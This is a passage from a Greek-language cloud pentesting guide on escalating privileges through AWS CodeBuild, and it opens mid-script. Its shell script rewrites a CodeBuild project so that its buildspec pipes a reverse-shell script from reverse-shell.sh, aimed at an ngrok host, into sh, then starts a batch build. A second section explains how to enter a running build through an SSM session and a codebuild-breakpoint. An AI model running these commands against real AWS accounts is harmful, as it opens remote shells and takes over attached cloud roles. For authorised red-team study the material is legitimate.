 ```sh
\"buildspec\": \"version: 0.2\\\\n\\\\nbatch:\\\\n  fast-fail: false\\\\n  build-list:\\\\n    - identifier: build1\\\\n      env:\\\\n        variables:\\\\n          BUILD_ID: build1\\\\n      buildspec: |\\\\n        version: 0.2\\\\n        env:\\\\n          shell: sh\\\\n        phases:\\\\n          build:\\\\n            commands:\\\\n              - curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | sh\\\\n      ignore-failure: true\\\\n\"
},
\"artifacts\": {
\"type\": \"NO_ARTIFACTS\"
},
\"environment\": {
\"type\": \"LINUX_CONTAINER\",
\"image\": \"public.ecr.aws/h0h9t7p1/alpine-bash-curl-jq:latest\",
\"computeType\": \"BUILD_GENERAL1_SMALL\",
\"imagePullCredentialsType\": \"CODEBUILD\"
}
}"

printf "$JSON" > $REV_PATH

# Note how it's used a image from AWS public ECR instead from dockerhub as dockerhub rate limits CodeBuild!

aws codebuild update-project --cli-input-json file://$REV_PATH

aws codebuild start-build-batch --project-name codebuild-demo-project
```
{% endcode %}
{% endtab %}
{% endtabs %}

**Πιθανές Επιπτώσεις:** Άμεσο privesc στους συνημμένους ρόλους AWS Codebuild.

### SSM

Έχοντας **αρκετά δικαιώματα για να ξεκινήσει μια συνεδρία ssm** είναι δυνατόν να μπείτε **μέσα σε ένα έργο Codebuild** που κατασκευάζεται.

Το έργο codebuild θα πρέπει να έχει ένα σημείο διακοπής:

<pre class="language-yaml"><code class="lang-yaml">phases:
pre_build:
commands:
- echo Entered the pre_build phase...
- echo "Hello World" > /tmp/hello-world
<strong>      - codebuild-breakpoint
</strong></code></pre>

Και στη συνέχεια:
```bash
aws codebuild batch-get-builds --ids <buildID> --region <region> --output json
aws ssm start-session --target <sessionTarget> --region <region>
```
Για περισσότερες πληροφορίες [**ελέγξτε τα έγγραφα**](https://docs.aws.amazon.com/codebuild/latest/userguide/session-manager.html).
